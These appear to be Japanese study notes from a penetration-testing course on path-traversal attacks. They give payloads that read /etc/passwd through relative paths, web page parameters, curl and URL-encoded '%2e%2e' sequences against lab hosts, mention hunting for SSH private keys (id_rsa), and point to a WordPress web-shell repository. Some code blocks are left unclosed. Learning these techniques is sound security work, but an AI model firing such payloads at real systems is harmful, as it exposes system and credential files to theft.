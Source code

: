 ## ファイルのパスを使用した攻撃手法

### `/etc/passwd`ファイルの表示

#### 絶対パスを使用して表示
```bash
cat /etc/passwd
```
#### 相対パスを使用して表示
```bash
cat ../../../etc/passwd
```
例: 現在のディレクトリが/var/log/の場合、/etc/passwdを表示するには次のようにします：
```bash
cat ../../etc/passwd
```
#### Webアプリケーションでの悪用
パラメータを利用した悪用例
Webアプリケーションでパラメータが悪用される可能性があります。以下はその例です：

http
```bash
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
この例では、pageパラメータを利用してサーバーの/etc/passwdファイルにアクセスしています。
#### id_rsaやid_ecdsaファイルの確認
特定のファイルが存在するか確認するために、id_rsaやid_ecdsaなどのファイルをチェックすることが重要です。
出力が正しくフォーマットされない場合
出力が正しく表示されない場合は、curlを使用して内容を確認することができます：

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
Windows環境での悪用
Windows環境では、ドライブ指定が不要なため、以下のように悪用できます：

http

http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt
URLエンコード
パスが表示されない場合
パスが直接表示されない場合は、URLエンコードを使用してパスをエンコードします：

```bash

curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
WordPressの脆弱性
簡単なエクスプロイト
WordPressの脆弱性を利用する簡単なエクスプロイト例です：

GitHubリポジトリ: leonjza/wordpress-shell
